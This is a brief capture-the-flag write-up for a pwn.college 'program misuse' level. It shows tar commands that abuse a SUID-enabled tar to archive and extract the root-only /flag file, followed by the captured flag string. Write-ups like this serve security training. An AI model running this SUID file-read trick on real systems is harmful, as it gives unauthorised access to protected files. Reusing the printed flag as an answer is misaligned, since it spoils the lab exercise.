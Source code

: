 # pwn.college - Fundamentals - Program misuse - Level 20
```
$ /challenge/babysuid_level20
```
The SUID bit on `/usr/bin/tar` is set
```
$ tar -cf archive /flag --owner=1000 --group=1000
$ tar -xf archive
$ cat flag
```
`pwn.college{8b619n1v7jF_dUrkdUDTsaNxSyT.0lM2EDLyYjNyEzW}`